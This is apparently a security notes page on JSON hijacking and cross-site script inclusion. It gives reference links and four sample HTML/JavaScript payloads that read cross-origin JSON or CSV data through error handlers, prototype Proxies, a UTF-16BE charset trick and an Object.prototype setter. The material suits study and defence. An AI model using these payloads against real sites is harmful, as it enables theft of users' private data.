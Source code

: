 ###JSON Hijacking###

Read0: [Why Facebook's json response strats with...](https://dev.to/antogarand/why-facebooks-api-starts-with-a-for-loop-1eob)

Read1: [JSON Hijacking - Haacked](https://haacked.com/archive/2009/06/25/json-hijacking.aspx/)

Read1: [JSON hijacking for the modern web](https://portswigger.net/blog/json-hijacking-for-the-modern-web)

Read2: [Identifier based XSSI attacks](https://www.mbsd.jp/Whitepaper/xssi.pdf)

Read3: [AngularJS - json vulnerability protection](https://docs.angularjs.org/api/ng/service/$http#json-vulnerability-protection)

Read4: [JSONP](https://en.wikipedia.org/wiki/JSONP)

- Browser + Javascript Fault - from the way it parses json data in a javascript context.
- Bypassing SOP and access data within the javascript runtime
- CSV data can be hijacked as well (#2 below)
- JSONP (JSON-P, JSON Padding) - a javascript pattern to request data by loading a `<script>` tag


Some Samples from here and there

\#1

	<!-- set an error handler -->
	<SCRIPT>window.onerror = function(err) {alert(err)}</SCRIPT>
	<!-- load target CSV -->
	<SCRIPT src="(target data's URL)"></SCRIPT>


\#2	

	<!-- set proxy handler to window.__proto__ -->
	<SCRIPT>
	var handler = {
		 has: function(target, name) {alert("data=" + name); return true},
		 get: function(target, name) {return 1}
	};
	window.__proto__ = new Proxy({}, handler);
	</SCRIPT>
	<!-- load target CSV -->
	<SCRIPT src="(target data's URL)"></SCRIPT>

\#3

	<script> 
	__proto__.__proto__.__proto__.__proto__.__proto__=new Proxy(__proto__,{
    has:function f(target,name){
        var str = f.caller.toString();
        alert(str.replace(/./g,function(c){ c=c.charCodeAt(0);return String.fromCharCode(c>>8,c&0xff); }));
    }
	});
	</script>
	<script charset="UTF-16BE" src="external-script-with-array-literal"></script>
	<!-- script contains the following response: ["supersecret","abc"] -->	
	
\#4

	<script type="text/javascript"> 
        Object.prototype.__defineSetter__('Id', function(obj){alert(obj);});
    </script> 
    <script src="http://example.com/Home/AdminBalances"></script>

	